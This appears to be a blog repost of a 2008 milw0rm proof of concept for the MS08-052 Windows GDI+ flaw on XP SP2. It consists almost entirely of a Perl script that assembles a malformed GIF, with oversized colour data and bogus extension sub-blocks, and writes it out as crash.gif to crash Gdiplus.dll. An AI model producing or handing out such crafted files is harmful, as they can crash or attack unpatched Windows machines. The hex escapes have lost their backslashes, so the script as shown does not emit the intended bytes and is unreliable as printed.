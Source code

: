 ```yaml
---
title: MS08-052 - MS Windows GDI+ Proof of Concept
description: MS08-052-MSWindowsGDI+ProofofConcept-----------------------------------------------------------------------------------------OperatingSystem:WindowsXPSP2Gdiplus.dllVersion:5.1.3102.2180
date: 2008-10-13 08:00:43
category: 漏洞信息
tags: ['漏洞信息', 'PoC']
post_id: 640
alias: MS08-052-GDI
ViewNums: 2612
---
```


**[MS08-052](/blog/ms08-052-gdi)** - **[MS Windows GDI+ Proof of Concept](/blog/ms08-052-gdi)**

-----------------------------------------------------------------------------------------
Operating System: [Windows](/tags/Windows) XP SP2
Gdiplus.dll Version: 5.1.3102.2180

Credit:

John Smith,
Evil Fingers

GIF Template Reference: http://www.sweetscape.com/010editor/templates/files/GIFTemplate.bt

PoC Link: http://www.evilfingers.com/patchTuesday/MS08_052_GDI+_Vulnerability_ver2.txt

http://www.evilfingers.com/patchTuesday/PoC.php
========================================================================

`#!/usr/bin/perl
#
use strict;`

`my $gif =`

`"x47x49x46x38x39x61". # GIF header
"x65x00x65x00xF7x0Bx0B". # Logical Screen Descriptor
# COLOR Stream
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33x33".
"x21". ## Extension Introducer 0x21
"x2C". ## Label 0x2C
# Data Sub-blocks (1)  Size: 21+1
#0
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xEC".
#1
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xECx21xECx21xECx21xECx21xECx21xECx21x2Cx21xEC".
"x21xEC".
#2
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xEC".
#3
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xEC".
#4
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xECx21xECx21xECx21x2Cx21xECx21xECx21xECx21xEC".
"x21xEC".
#5
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xEC".
#6
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xEC".
#7
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21x2Cx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xEC".
#8
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xEC".
#9
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xEC".
#10
"x21xECx21xECx21xECx21xECx21xECx21x2Cx21xECx21xEC".
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xEC".
#11
"x21xECx21xECx21xECx21xECx21xECx21xECx21xECx21xEC".
"x21xECx21xECx21xECx21xECx21xECx2Cx00x00x00x00x0E".
"x01x5A".
"x00". ## Terminator
"x21". ## Extension Introducer 0x21
"x2C". ## Label 0x2C
# Data Sub-blocks (2) Size: EC+1
#0
"xECx61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62".
#1
"xECx61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62".
#2
"xECx61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62".
#3
"xECx61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62".
#4
"xECx61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62x61x62x61".
"x62x61x62x61x62x61x62x61x62x61x62x61x62".
"x00". # Terminator
"x3B". # Trailer`

`open(out, "> crash.gif");
binmode(out);
print (out $gif);
close(out);`

# [milw0rm.com](http://www.milw0rm.com/exploits/6716) [2008-10-09]

